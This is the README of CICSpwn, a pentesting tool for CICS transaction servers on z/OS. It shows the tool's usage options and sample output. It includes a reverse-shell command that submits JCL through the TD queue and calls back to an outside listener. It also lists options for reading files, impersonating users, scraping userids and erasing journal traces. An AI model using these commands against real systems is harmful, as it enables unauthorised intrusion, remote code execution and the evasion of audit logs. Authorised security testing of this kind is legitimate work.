 # CICSpwn
## Description  
CICSpwn is a tool to pentest CICS Transaction servers on z/OS.

## Features    
* Get general information about CICS and the underlying z/OS  
  * List available IBM supplied transactions
  * Get active sessions and userids
  * Get path (HLQ) of files and libraries
  * Check if CICS is using RACF/ACF2/TopSecret   
* Read files created by the application 
* Remotely execute code using Spoolopen and TDqueue
## Usage
```
$python cicspwn.py -h
  
       ::::::::   :::::::::::   ::::::::    ::::::::   ::::::::: :::       :::::::    ::: 
      :+:    :+:      :+:      :+:    :+:  :+:    :+:  :+:    :+::+:       :+::+:+:   :+: 
      +:+             +:+      +:+         +:+         +:+    +:++:+       +:+:+:+:+  +:+ 
      +#+             +#+      +#+         +#++:++#++  +#++:++#+ +#+  +:+  +#++#+ +:+ +#+  
      +#+             +#+      +#+                +#+  +#+       +#+ +#+#+ +#++#+  +#+#+# 
      #+#    #+#      #+#      #+#    #+#  #+#    #+#  #+#        #+#+# #+#+# #+#   #+#+# 
       ########   ###########   ########    ########   ###         ###   ###  ###    #### 
      
                            The tool for some CICS p0wning !		Author: @Ayoul3__

usage: cicspwn.py [-h] [-a APPLID] [-i] [-t] [-f] [-p PATTERN] [-U USERID]
                  [-P PASSWORD] [--get-file FILENAME]
                  [--enable-trans ENA_TRANS] [-q] [-u] [-g SURROGAT_USER]
                  [-s SUBMIT] [--queue QUEUE] [--ftp-cmds FTP_CMDS]
                  [--node NODE] [-l LHOST] [--port PORT] [-j JCL]
                  IP PORT

CicsPwn: a tool to pentest CICS transaction servers on z/OS

positional arguments:
  IP                    The z/OS Mainframe IP or Hostname
  PORT                  CICS/VTAM server Port

optional arguments:
  -h, --help            show this help message and exit
  -a APPLID, --applid APPLID
                        CICS ApplID on VTAM, default is CICS
  -i, --info            Gather information about a CICS region
  -t, --trans           Get all installed transactions on a CICS TS server
  -f, --files           List all installed files a on TS CICS
  -p PATTERN, --pattern PATTERN
                        Specify a pattern of a files/transaction to get
                        (default is "*")
  -U USERID, --userid USERID
                        Specify a userid to use on CICS
  -P PASSWORD, --password PASSWORD
                        Specify a password for the userid
  --get-file FILENAME   Get the content of a file. It attempts to change the
                        status of the file if it's not enabled, opened or
                        readable
  --enable-trans ENA_TRANS
                        Enable a single transaction
  -q, --quiet           Remove Trailing and journal before performing any
                        action
  -u, --userids         Scrape userids found in different menus
  -g SURROGAT_USER, --surrogat SURROGAT_USER
                        Checks wether you can impersonate another user when
                        submitting a job
  -s SUBMIT, --submit SUBMIT
                        Submit JCL to CICS server. Specify:
                        dummy,reverse,custom (need -j option),cicsshell,ftp
  --queue QUEUE         Provides the name of the TD queue to submit a JOB
  --ftp-cmds FTP_CMDS   Files containig a list of ftp commands to execute
  --node NODE           System node name where the JOB should be submitted
                        (works only with Spool functions)
  -l LHOST, --lhost LHOST
                        Remote server to call back to for reverse shell
                        (host:port)
  --port PORT           Remote port to open for bind shell in REXX
  -j JCL, --jcl JCL     Custom JCL file to provide

```
## Prerequisites
3270 Python library [py3270](https://pypi.python.org/pypi/py3270/0.2.0)

## Getting general information
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -i
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting information about CICS server (APPLID: CICS)
	[*] CICS TS Version 3.2
[+] Available IBM supplied transactions: 
	[*] CEMT
	[*] CECI
	[*] CEDA
	[*] CEDF
[+] General system information: 
	[*] Userid: CICSUSER
	[*] Sysid: S650
	[*] LU session name: LCL704
	[*] language: E
	[*] Files HLQ:	CICS650.**
	[*] Library path:	DFH320.CICS.**
[+] Active users
	[*] CICSUSER
	[*] CICSUSER
[+] JCL Submission
	[*] Access to internal spool is apparently available
	[*] Transiant queue to access spool is apparently available
		[*] When submitting a job, provide the option --inreader=IRDR
[+] Access control
	[*] User CICSUSER authorized to submit JOBS
```
## Reverse shell using CICS
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -s reverse -l 192.168.1.16:4445
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Setting the current terminal to mixed case
[*] Got TerminalID L702
[*] Current terminal is NOW mixed case
[+] Spool not available apparently, trying via TDQueue
[+] Writing to the internal TDQueue
	[*] JCL Written to TDqueue, it should be executed any second

```

## Copyright and license  
cicsPWN is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  
CICSpwn is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  
See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with nmaptocsv. If not, see http://www.gnu.org/licenses/.

## Credit
The REXX code of the reverse shell was mainly inspired by the work of [@mainframed767](https://github.com/mainframed/Mainframed)

## Contact
Ayoub ELAASSAL ayoul3.zos at gmail dot com
